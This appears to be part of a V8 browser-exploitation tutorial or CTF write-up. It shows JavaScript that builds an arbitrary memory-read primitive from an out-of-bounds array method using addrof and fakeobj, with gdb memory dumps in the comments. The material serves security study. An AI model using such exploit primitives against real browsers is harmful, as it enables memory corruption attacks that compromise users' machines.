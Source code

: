 ![](./assets/arbitrary-read-primitive.jpg)

```
// If we want to leak the following string:
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));
// %SystemBreak();
// [+] Address of target string: 0xc6a37f9f3c9
// (gdb) x/32xw 0xc6a37f9f3c9-1
// 0xc6a37f9f3c8:	0xd9840461	0x00003369	0xe62bbeea	0x00000008
// 0xc6a37f9f3d8:	0x41414141	0x41414141	0xd9840461	0x00003369  <-- target_string
// 0xc6a37f9f3e8:	0xfe1f98a6	0x00000012	0x67726174	0x735f7465

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));
// %SystemBreak();

// [+] Leak address of floatArray: 0x3dbbd148f619
// (gdb) x/32xw 0x3dbbd148f619-1-0x30
// 0x3dbbd148f5e8:	0xd98414f9	0x00003369	0x00000000	0x00000004  <-- FixedDoubleArray
// 0x3dbbd148f5f8:	0x43142ed9	0x00003fb1	0x33333333	0x3ff33333
// 0x3dbbd148f608:	0x37f9f3c9	0x00000c6a	0x66666666	0x3ff66666  <-- elements[2]
// 0x3dbbd148f618:	0x43142ed9	0x00003fb1	0xd9840c71	0x00003369  <-- JSArray
// 0x3dbbd148f628:	0xd148f5e9	0x00003dbb	0x00000000	0x00000004  <-- elements ptr
// 0x3dbbd148f638:	0xd9840561	0x00003369	0x43142ed9	0x00003fb1
// 0x3dbbd148f648:	0xd98412c9	0x00003369	0x00000000	0x00000001
// 0x3dbbd148f658:	0x00000000	0x00000400	0xd98413b9	0x00003369

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10
```
